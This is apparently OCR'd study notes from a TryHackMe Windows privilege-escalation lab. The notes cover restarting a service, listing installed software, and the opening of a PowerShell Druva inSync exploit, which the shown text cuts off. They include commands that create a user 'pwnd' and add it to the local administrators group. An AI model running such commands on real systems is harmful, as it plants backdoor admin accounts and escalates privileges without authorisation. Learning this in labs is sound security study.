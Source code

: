 ```
  

# Restart the service

sc stop THMService

sc start THMService

  

  

1. Unpatched software

  

we can search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) , Google or others.

  

# List installd softwares

wmic product get name,version,vendor

  

# Add new user and pass

net user pwnd SimplePass123 /add 

net localgroup administrators pwnd /add

  

# Check if user is created

net user pwnd

  

Druva inSync exploit

$ErrorActionPreference = "Stop"

  

$cmd = "net user pwnd /add"

  

$s = New-Object System.Net.Sockets.Socket(

    [System.Net.Sockets.AddressFamily]::InterNetwork,

    [System.Net.Sockets.SocketType]::Stream,

    [System.Net.Sockets.ProtocolType]::Tcp

)

$s.Connect("127.0.0.1", 6064)

```